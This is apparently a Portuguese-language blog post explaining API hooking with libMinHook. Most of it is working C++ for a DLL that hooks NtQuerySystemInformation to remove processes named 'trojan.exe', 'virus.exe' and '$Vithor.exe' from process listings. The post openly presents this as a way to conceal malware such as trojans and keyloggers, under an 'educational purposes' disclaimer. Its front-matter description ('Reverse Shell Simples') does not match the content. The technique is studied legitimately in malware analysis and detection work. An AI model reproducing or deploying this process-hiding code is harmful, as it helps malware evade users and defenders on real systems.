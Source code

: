 ```yaml
---
weight: 14
title: "Post XIV: API-Hooking"
date: 2023-03-01T15:58:26+08:00
lastmod: 2023-03-03T15:58:26+08:00
draft: false
author: Vith0r
authorLink: https://github.com/Vith0r
description: Reverse Shell Simples.
images: 
resources:
  - name: featured-image
    src: Image.jpeg
tags:
  - Malware
categories:
  - Malware
lightgallery: true
toc:
  auto: false
---
```


Bom, neste post irei compartilhar um artigo meu feito em 2023 para um site que não está mais online, mas que salvei no meu HD. Neste post, vou abordar como ocultar um processo utilizando a `libMinHook`.

> [!warning] Warning
> As informações que você encontrar neste post, técnicas, códigos, provas de conceito ou qualquer outra coisa são estritamente para fins educacionais.
## O Que é API Hooking?

API Hooking é uma técnica usada para interceptar chamadas de funções de `APIs` em um software.
Isso permite modificar redirecionar, ou monitorar chamadas de funções específicas.
## Exemplos Praticos:
API Hooking também pode ser usado para esconder processos suspeitos ou atividades indesejadas em um sistema operacional. Ao interceptar chamadas de API relacionadas ao gerenciamento de processos, podemos esconder algum malware como trojans e keyloggers.
## Código da DLL:

### Inclusão da biblioteca libMinHook:

```cpp
#pragma comment(lib, "libMinHook.x64.lib")

PNT_QUERY_SYSTEM_INFORMATION Original_NtQuerySystemInformation; // Ponteiro para a função NtQuerySystemInformation original
PNT_QUERY_SYSTEM_INFORMATION New_NtQuerySystemInformation;      // Novo ponteiro para a função NtQuerySystemInformation
wchar_t* process;
```
### Função de gancho para NtQuerySystemInformation:

```cpp
NTSTATUS WINAPI Hooked_NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength)
```

### Chama a função NtQuerySystemInformation original através do novo ponteiro:
```cpp
    NTSTATUS stat = New_NtQuerySystemInformation(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);
```

### Verificação e manipulação da lista de processos:

```cpp
    if (SystemProcessInformation == SystemInformationClass && stat == 0)
    {
        // Itera sobre a lista de processos e remove processos específicos
        P_SYSTEM_PROCESS_INFORMATION prev = P_SYSTEM_PROCESS_INFORMATION(SystemInformation);
        P_SYSTEM_PROCESS_INFORMATION curr = P_SYSTEM_PROCESS_INFORMATION((PUCHAR)prev + prev->NextEntryOffset);
        while (prev->NextEntryOffset != NULL) {
            // Verifica se o nome do processo corresponde a processos específicos e os remove da lista
            if (!lstrcmp(curr->ImageName.Buffer, L"$Vithor.exe") || !lstrcmp(curr->ImageName.Buffer, L"trojan.exe") || !lstrcmp(curr->ImageName.Buffer, L"virus.exe")) {
                // Remove o processo da lista, mantendo a integridade da estrutura
                if (curr->NextEntryOffset == 0) {
                    prev->NextEntryOffset = 0;
                }
                else {
                    prev->NextEntryOffset += curr->NextEntryOffset;
                }
                curr = prev;
            }
            prev = curr;
            curr = P_SYSTEM_PROCESS_INFORMATION((PUCHAR)curr + curr->NextEntryOffset);
        }
    }

    return stat;
```

### Configuração do gancho para NtQuerySystemInformation:

```cpp
bool set_nt_hook()
{
    HMODULE ntdll = GetModuleHandle(L"ntdll.dll"); // Obtém o handle do módulo ntdll.dll, onde a função NtQuerySystemInformation está localizada
    
    Original_NtQuerySystemInformation = (PNT_QUERY_SYSTEM_INFORMATION)GetProcAddress(ntdll, "NtQuerySystemInformation");

    // Inicializa o gerenciador de ganchos
    if (MH_Initialize() != MH_OK) { return false; }

    // Cria o gancho para a função NtQuerySystemInformation
    if (MH_CreateHook(Original_NtQuerySystemInformation, &Hooked_NtQuerySystemInformation,
        (LPVOID*)&New_NtQuerySystemInformation) != MH_OK) {
        return false;
    }

    // Ativa o gancho
    if (MH_EnableHook(Original_NtQuerySystemInformation) != MH_OK) { return false; }

    return true;
}
```

### Função principal para DLL:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // Configura o gancho na função NtQuerySystemInformation
        if (!set_nt_hook()) {
            return FALSE;
        }
        break;
    case DLL_PROCESS_DETACH:
        // Desativa e libera o gancho quando a DLL é descarregada
        MH_DisableHook(Original_NtQuerySystemInformation);
        MH_Uninitialize();
        break;
    }
    return TRUE;
}
```

## Explicação do Código

### Interceptação e Modificação da Função NtQuerySystemInformation

O código intercepta e modifica o comportamento da função `NtQuerySystemInformation`, que é usada para obter informações sobre processos no sistema. Para fazer isso, ele usa a biblioteca `libMinHook` para criar e gerenciar ganchos (hooks) na função alvo.
### Variáveis Importantes

Primeiro, o código inclui a biblioteca `libMinHook` e declara duas variáveis importantes:

- `Original_NtQuerySystemInformation`: Ponteiro para a função `NtQuerySystemInformation` original.
- `New_NtQuerySystemInformation`: Novo ponteiro para a função `NtQuerySystemInformation`, que será o ponto de entrada alternativo.
### Função Hooked_NtQuerySystemInformation

A função `Hooked_NtQuerySystemInformation` é o ponto de entrada alternativo para `NtQuerySystemInformation`. Sempre que alguém tenta acessar `NtQuerySystemInformation`, essa função é chamada. Ela verifica se a consulta é para obter informações sobre processos do sistema `SystemProcessInformation`. Se for o caso e a consulta for bem-sucedida, a função percorre a lista de processos e remove processos específicos antes de retornar os resultados.
### Configuração do Gancho

A função `set_nt_hook` é responsável por configurar o gancho na função `NtQuerySystemInformation`. Ela começa obtendo o identificador do módulo `ntdll.dll`, onde a função alvo está localizada. Em seguida, inicializa o gerenciador de ganchos `libMinHook`, cria um gancho para a função `NtQuerySystemInformation` original e redireciona as chamadas para a função `Hooked_NtQuerySystemInformation`. Por fim, ativa o gancho para que ele comece a interceptar as chamadas para a função original.
### Função DllMain

A função `DllMain` é chamada quando a DLL é carregada ou descarregada. Quando a DLL é desanexada `DLL_PROCESS_DETACH`, o gancho é desativado e o gerenciador de ganchos é desinicializado.

---
### Resumo

Em resumo, o código permite a manipulação das informações retornadas pela função `NtQuerySystemInformation` para ocultar processos específicos da lista de processos.
## Prova de Conceito:

![](https://telegra.ph/file/ce7b41995c91b7d9ea2b4.png)